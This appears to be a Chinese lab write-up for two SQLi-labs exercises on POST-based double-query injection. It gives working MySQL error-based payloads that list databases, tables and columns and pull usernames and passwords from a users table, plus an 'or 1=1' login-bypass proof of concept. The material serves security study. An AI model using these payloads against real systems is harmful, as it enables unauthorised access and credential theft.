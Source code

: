 通过双注入的方法：

### 查询数据库

和实验五一样，通过修改`limit`的值查询不同的数据库：

```
uname=admin') and (select 1 from (select count(*),concat((SELECT schema_name FROM information_schema.schemata limit 0,1),floor (rand(0)*2))x from information_schema.tables group by x)a) #
```

![image-20211207204509805](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020059336.png)

### 查询数据库中的表

```
uname=admin') and (select 1 from (select count(*),concat((SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA="security" limit 0,1),floor (rand(0)*2))x from information_schema.tables group by x)a) #
```

![image-20211207204755629](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020059064.png)

### 查表中的字段

```
uname=admin') and (select 1 from (select count(*),concat((SELECT column_name FROM information_schema.columns where table_schema='security' and table_name='users' limit 0,1),floor (rand(0)*2))x from information_schema.tables group by x)a) #
```

![image-20211207204950875](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020059986.png)

### 查数据

```
uname=admin') and (select 1 from (select count(*),concat((select concat_ws(id,username,password) from users limit 1,1),floor (rand(0)*2))x from information_schema.tables group by x)a) #
```

![image-20211207205129204](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020059613.png)



## 实验十四	POST双引号变形双注入

输入`uname=admin"`有报错回显，猜测后台语句：`SELECT username, password FROM 用户表 WHERE username=("input") and password=("input");`

![image-20211207205251958](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020059848.png)

构造poc：`admin" or 1=1 #`，没有任何显示，说明猜想正确。

接下来的步骤同实验十三，只需要把`admin')`改为`admin"`
